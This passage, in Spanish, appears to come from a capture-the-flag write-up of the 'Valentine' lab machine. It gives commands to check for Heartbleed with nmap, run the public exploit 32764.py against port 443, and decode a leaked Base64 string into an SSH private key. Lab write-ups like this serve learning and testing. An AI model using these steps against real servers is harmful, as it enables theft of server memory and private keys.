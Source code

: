 . Verificar vulnerabilidad:
   ```bash
   nmap --script ssl-heartbleed -p80,443,22 10.10.10.79
   ```
   ![[Valentine10.png]]
2. Exploit con Searchsploit:
   ```bash
   searchsploit -m multiple/remote/32764.py
   python2.7 32764.py 10.10.10.79 -p 443
   ```
   ![[Valentine11.png]]
3. Decodificar cadena Base64:
   ```bash
   echo "BASE64_STRING" | base64 -d > id_rsa
   chmod 600 id_rsa
   ```
   ![[Valentine12.png]]
   ![[Valentine13.png]]